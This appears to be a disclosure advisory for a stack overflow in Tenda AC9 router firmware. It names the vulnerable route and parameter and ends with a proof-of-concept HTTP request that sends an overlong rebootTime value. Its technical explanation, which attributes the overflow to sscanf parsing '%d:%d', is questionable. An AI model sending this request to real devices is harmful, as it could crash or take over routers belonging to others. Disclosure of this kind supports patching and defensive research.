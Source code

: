 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the rebootTime parameter of route /goform/SetSysAutoRebbotCfg has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetRebootTimer function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the rebootTime parameter from a POST request by variable s.However, since the user has control over the input of rebootTime, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(param_1,"%d:%d",&v7,&v6);  " may leads to a buffer overflow.  The user-supplied rebootTime can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/SetSysAutoRebbotCfg.png)

## Poc
```py
POST /goform/SetSysAutoRebbotCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

rebootTime=00:88888
```

